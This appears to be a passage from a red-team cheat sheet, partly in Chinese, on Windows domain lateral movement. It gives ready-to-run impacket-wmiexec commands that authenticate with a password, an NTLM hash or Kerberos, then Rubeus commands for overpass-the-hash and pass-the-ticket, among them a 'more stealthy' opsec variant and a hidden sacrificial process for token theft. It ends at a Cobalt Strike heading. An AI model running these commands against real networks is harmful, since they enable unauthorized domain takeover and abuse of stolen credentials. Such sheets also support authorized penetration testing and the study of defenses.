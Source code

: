 linux
### with password
```
impacket-wmiexec DOMAIN/targetuser:password@172.16.4.101
```

### with hash
```
impacket-wmiexec DOMAIN/targetuser@172.16.4.101 -hashes :e0e223d63905f5a7796fb1006e7dc594
```

### with Kerberos authentication (make sure your client is setup to use the right ticket, and that you have a TGS with the right SPNs)
```
impacket-wmiexec DOMAIN/targetuser@172.16.4.101 -no-pass -k
```

# 使用Rubeus.exe横向运动
我们可以使用 Rubeus 执行一种称为“Overpass-the-Hash”的技术。在这种技术中，我们不是直接传递散列（另一种称为传递散列的技术），而是使用帐户的 NTLM 散列来请求有效的 Kerberost 票证 (TGT)。然后，我们可以使用此票证作为目标用户向域进行身份验证。

## Request a TGT as the target user and pass it into the current session
## NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
```
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt
```
## More stealthy variant, but requires the AES256 key (see 'Dumping OS credentials with Mimikatz' section)

```
.\Rubeus.exe asktgt /user:Administrator /aes256:[AES256KEY] /opsec /ptt
```

## Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
```
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
```


# Cobalt Strike

## ```jump```命令
